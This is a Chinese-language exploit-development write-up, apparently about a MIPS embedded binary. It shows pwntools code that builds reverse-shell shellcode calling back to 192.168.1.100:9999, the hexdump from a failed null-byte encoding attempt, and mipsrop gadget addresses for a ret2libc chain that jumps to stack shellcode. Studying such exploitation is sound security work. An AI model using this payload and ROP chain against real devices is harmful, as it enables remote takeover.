 尝试使用pwntools中自带的encode函数去避免00：

```python
from pwn import *
context(arch='mips',os='linux',endian='little')
shellcode = shellcraft.mips.linux.connect('192.168.1.100',9999)+shellcraft.mips.linux.dupsh()
encode(asm(shellcode),avoid='\x00')
```

但是发现其实不支持mips平台的：

```python
pwnlib.exception.PwnlibException: No encoders for mips which can avoid \x00 for
00000000  fd ff 19 24  27 20 20 03  ff ff 06 28  57 10 02 34  │···$│'  ·│···(│W··4│
00000010  fc ff a4 af  fc ff a5 8f  0c 01 01 01  fc ff a2 af  │····│····│····│····│
00000020  fc ff b0 8f  d8 f0 19 3c  fd ff 39 37  27 48 20 03  │····│···<│··97│'H ·│
00000030  f8 ff a9 af  01 64 09 3c  c0 a8 29 35  fc ff a9 af  │····│·d·<│··)5│····│
00000040  f8 ff bd 27  fc ff b0 af  fc ff a4 8f  20 28 a0 03  │···'│····│····│ (··│
00000050  ef ff 19 24  27 30 20 03  4a 10 02 34  0c 01 01 01  │···$│'0 ·│J··4│····│
00000060  fc ff b0 af  fc ff a4 8f  c9 0f 02 34  0c 01 01 01  │····│····│···4│····│
00000070  62 69 09 3c  2f 2f 29 35  f4 ff a9 af  73 68 09 3c  │bi·<│//)5│····│sh·<│
00000080  6e 2f 29 35  f8 ff a9 af  fc ff a0 af  f4 ff bd 27  │n/)5│····│····│···'│
00000090  20 20 a0 03  fc ff a0 af  fc ff bd 27  ff ff 06 28  │  ··│····│···'│···(│
000000a0  fc ff a6 af  fc ff bd 23  20 30 a0 03  73 68 09 34  │····│···#│ 0··│sh·4│
000000b0  fc ff a9 af  fc ff bd 27  ff ff 05 28  fc ff a5 af  │····│···'│···(│····│
000000c0  fc ff bd 23  fb ff 19 24  27 28 20 03  20 28 bd 00  │···#│···$│'( ·│ (··│
000000d0  fc ff a5 af  fc ff bd 23  20 28 a0 03  ab 0f 02 34  │····│···#│ (··│···4│
000000e0  0c 01 01 01                                         │····││
000000e4
```

故这里为了方便，不建议使用pwntools。

### ret2libc

虽然程序加载了非常多的动态库，不过这里我们仍然使用比较熟悉的libc，在文件系统中可以找到对应的文件：`/lib/libc.so.0`，同样使用mipsrop找到可用的gadget。这里使用如下的两个gadget进行利用，将shellcode放到栈顶+0x18地址处，然后把这个地址放到a0寄存器里，并通过s0寄存器的使用下一个gadget，最终跳转到a0寄存区所存的shellcode地址处即可完成利用

```
Python>mipsrop.stackfinder()
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x000257A0  |  addiu $a0,$sp,0x38+var_20                           |  jalr  $s0                             |
----------------------------------------------------------------------------------------------------------------

Python>mipsrop.find("mov $t9,$a0")
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0003D050  |  move $t9,$a0                                        |  jalr  $a0                             |
----------------------------------------------------------------------------------------------------------------
```
